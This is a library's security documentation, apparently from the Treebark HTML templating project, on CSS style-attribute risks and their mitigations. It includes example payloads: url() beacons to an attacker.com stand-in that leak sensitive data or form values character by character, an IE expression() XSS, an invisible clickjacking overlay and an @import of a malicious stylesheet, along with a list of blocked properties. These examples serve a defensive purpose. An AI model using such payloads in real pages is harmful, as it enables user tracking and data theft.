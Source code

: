 # Security Considerations

## Style Attribute Security Risks

The `style` attribute is currently allowed on all HTML elements in Treebark as a global attribute. While this provides flexibility for styling, there are several security considerations to be aware of:

### Identified Risks

#### 1. CSS Injection via url()
CSS properties that accept URLs (e.g., `background-image`, `background`, `list-style-image`) can be used to:
- **Load external resources** that could track users or exfiltrate data
- **Make cross-origin requests** that could leak information via CSS attribute selectors

**Example:**
```json
{
  "div": {
    "style": "background-image: url(https://attacker.com/track?data=sensitive)",
    "$children": ["Content"]
  }
}
```

#### 2. JavaScript Execution (Legacy Browsers)
While modern browsers block these, older browsers (particularly Internet Explorer) had features that could execute JavaScript through CSS:
- **`expression()`** - IE-specific CSS expression that could run JavaScript
- **`behavior`** property - IE could load and execute HTC (HTML Component) files
- **`-moz-binding`** - Firefox XBL binding that could execute code

**Example:**
```json
{
  "div": {
    "style": "width: expression(alert('XSS'))",
    "$children": ["Content"]
  }
}
```

#### 3. Data Exfiltration
CSS can be used to exfiltrate data through various techniques:
- **Attribute selectors with background images** - Can steal form values, CSRF tokens, etc.
- **Font-face with unicode-range** - Can detect specific characters in text

**Example:**
```css
input[value^="a"] {
  background: url(https://attacker.com/leak?char=a);
}
```

#### 4. UI Redressing
CSS properties like `position`, `z-index`, `opacity`, and `transform` can be used for:
- **Clickjacking** - Overlaying invisible elements over legitimate UI
- **Content hiding** - Hiding warning messages or important information
- **Phishing** - Creating fake login forms over legitimate content

**Example:**
```json
{
  "div": {
    "style": "position: fixed; top: 0; left: 0; z-index: 9999; opacity: 0.01",
    "$children": ["Invisible overlay"]
  }
}
```

#### 5. CSS Imports
The `@import` directive can load external stylesheets, which could:
- Load additional malicious CSS
- Track users
- Potentially bypass Content Security Policy in some configurations

**Example:**
```json
{
  "div": {
    "style": "@import url(https://attacker.com/malicious.css)",
    "$children": ["Content"]
  }
}
```

### Current Behavior

Treebark provides comprehensive security through its design:
- ✅ **Escapes HTML** in interpolated values (prevents `<script>` injection)
- ✅ **Validates tag names** (prevents `<script>` tags)
- ✅ **Validates attribute names** (prevents `onclick`, `onerror`, etc.)
- ✅ **Structured style objects** with whitelist validation (prevents CSS injection)

**Style Attribute Security:**
As of the latest version, Treebark requires the `style` attribute to be a structured object rather than a string. This provides security by design:
- Uses generic property validation (any kebab-case CSS property allowed)
- Blocked dangerous properties: `behavior`, `-moz-binding`
- Values containing `url()` (except data: URIs), `javascript:`, or `@import` are rejected
- Property names must be in kebab-case format (e.g., `"font-size"`, not `"fontSize"`)
- Future-proof: new CSS properties work automatically without code updates

### Recommendations

For applications using Treebark with user-generated content or untrusted data, consider:

1. **Content Security Policy (CSP)**
   - Use `style-src 'self'` to prevent inline styles
   - Or use `style-src 'unsafe-inline'` with nonces

2. **Input Validation**
   - Validate and sanitize style values before passing to Treebark
   - Use an allowlist of safe CSS properties
   - Block or sanitize `url()` values

3. **Avoid User-Controlled Styles**
   - Don't allow users to directly control style attributes
   - Use predefined CSS classes instead
   - If custom styling is needed, validate against an allowlist

4. **Consider CSS Sanitization**
   - Implement a CSS sanitizer if user-controlled styles are necessary
   - Libraries like [sanitize-css](https://www.npmjs.com/package/sanitize-css) or similar can help
   - Block dangerous properties: `behavior`, `-moz-binding`, `expression`
   - Sanitize `url()` values to allow only data URIs or trusted domains

### Safe Usage Examples

**✅ Safe: Hardcoded styles**
```json
{
  "div": {
    "style": "color: red; font-size: 14px",
    "$children": ["Static content"]
  }
}
```

**✅ Safe: Interpolated safe values**
```json
{
  "div": {
    "style": "color: {{color}}; font-size: {{size}}px",
    "$children": ["Content"]
  }
}
```
With validated data: `{ color: "red", size: 14 }`

**⚠️ Risky: User-controlled full style attribute**
```json
{
  "div": {
    "style": "{{userStyle}}",
    "$children": ["Content"]
  }
}
```
If `userStyle` comes from untrusted input, this could be exploited.

### References

- [OWASP CSS Injection](https://owasp.org/www-community/attacks/CSS_Injection)
- [CSS Injection Attacks](https://x-c3ll.github.io/posts/CSS-Injection-Primitives/)
- [Scriptless Attacks](http://www.segmentationfault.fr/publications/mario_heiderich_-_scriptless_attacks_cutting_edge_xss.pdf)
